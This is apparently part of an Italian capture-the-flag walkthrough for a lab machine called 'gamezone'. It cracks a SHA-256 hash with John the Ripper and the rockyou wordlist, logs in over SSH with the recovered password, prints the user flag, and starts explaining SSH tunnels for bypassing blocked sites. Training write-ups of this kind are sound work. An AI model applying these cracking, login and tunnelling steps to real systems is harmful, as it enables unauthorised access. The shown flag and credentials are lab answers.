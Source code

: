 ```
nano hashpw.txt
```
```
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
```

```
john hashpw.txt -wordlist=/usr/share/wordlists/rockyou.txt  --format=Raw-SHA256
```

```
└─# john hashpw.txt -wordlist=/usr/share/wordlists/rockyou.txt  --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 SSE2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=3
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)     
1g 0:00:00:00 DONE (2025-05-15 07:10) 3.448g/s 9999Kp/s 9999Kc/s 9999KC/s virgo5eris..vhunlex121
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 

```


Cos'è la password de-hashed?

```
videogamer124
```

Ora hai una password e un nome utente. Prova ad accedere al computer tramite SSH.

Cos'è il flag utente?

```
ssh agent47@10.10.24.247
```
	videogamer124

```
agent47@gamezone:~$ ls
user.txt
agent47@gamezone:~$ cat user.txt
649ac17b1480ac13ef1e4fa579dac95c
```

```
649ac17b1480ac13ef1e4fa579dac95c
```

#### Exposing services with reverse SSH tunnels

L'inoltro inverso delle porte SSH specifica che la porta specificata sull'host del server remoto deve essere inoltrata all'host e alla porta specificati sul lato locale.

**-L** è un tunnel locale (TU <-- CLIENTE). Se un sito è stato bloccato, puoi inoltrare il traffico a un server di tua proprietà e visualizzarlo. Ad esempio, se imgur è stato bloccato al lavoro, puoi eseguire  **ssh -L 9000:imgur.com:80 user@example.com.** Andando a localhost:9000 sul tuo computer, il traffico imgur verrà caricato tramite l'altro server.
